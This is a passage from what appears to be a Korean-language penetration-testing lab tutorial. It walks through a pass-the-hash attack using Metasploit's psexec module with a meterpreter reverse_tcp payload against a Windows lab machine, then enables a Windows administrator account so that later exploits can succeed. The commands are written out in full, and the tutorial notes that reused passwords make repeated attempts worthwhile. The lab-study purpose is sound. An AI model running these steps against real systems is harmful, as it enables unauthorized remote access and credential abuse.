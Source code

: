 우리는 모듈 #10을 사용하고 payload를 설정해준다.

```jsx
msf5 exploit(windows/smb/ms08_067_netapi) > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) > show options
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/1765dfd6-e19a-4134-8b39-afabd2aa7a88/hashthepass3.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/1765dfd6-e19a-4134-8b39-afabd2aa7a88/hashthepass3.png)

필요한 옵션들을 설정해주자

```jsx
msf5 exploit(windows/smb/psexec) > set RHOST [공격할 대상의 IP]
RHOST => 10.0.2.6
msf5 exploit(windows/smb/psexec) > set LHOST [Kali IP]
LHOST => 10.0.2.200
msf5 exploit(windows/smb/psexec) > set smbuser administrator
smbuser => administrator
msf5 exploit(windows/smb/psexec) > set smbpass [hash값 - 첫번째 줄]
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/da7236ae-b1d2-481e-a091-18559c76c2be/hashthepass4.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/da7236ae-b1d2-481e-a091-18559c76c2be/hashthepass4.png)

보라색 부분을 ctrl + shift + c (복사), ctrl + shift + v(붙여넣기) 를 이용하여 설정해준다

show options 명령을 통해 모든 옵션들이 설정되었는지 확인한 후 실행하자

```jsx
> show options
> run
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/0d1b22c3-9568-40a9-910d-c205d97dc93b/hashthepass5.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/0d1b22c3-9568-40a9-910d-c205d97dc93b/hashthepass5.png)

pass the hash  공격에 실패했다 왜 일까? username이 일치하지 않거나 윈도우XP와 윈도우 8의 암호가 같지 않아서 이러한 결과가 나온다. 하지만 낙심할 필요없다. 대부분의 사람들은 플랫폼마다 비밀번호를 통일하는 경향이 있기 때문에 여러번 시도하면 성공할 수 있을 것이다. 

앞으로 나올 실습에서 windows 8에 psecex 모듈을 사용하므로 익스플로잇 가능하도록 windows 8에서 설정을 바꾸자

- windows 8에서 관리자 계정을 활성화하고 암호를 설정하자

windows 8에서 커맨드창을 연다.

c:\Windows\System32 해당경로에 들어가서 cmd.exe를 마우스 우클릭 누른 뒤 관리자 권한으로 실행하자

커맨드 창에 다음 코드를 작성

```jsx
> net user administrator P$sw0rdY
> net user administrator /active:yes
```

'명령을 잘 실행했습니다' 라는 문구가 나오면 활성화가 된 것이다. 

제어판에서 확인해보자

제어판 - 사용자계정 - 다른계정관리 에서 Administrator 계정이 활성화 된 것을 확인 할 수 있다.
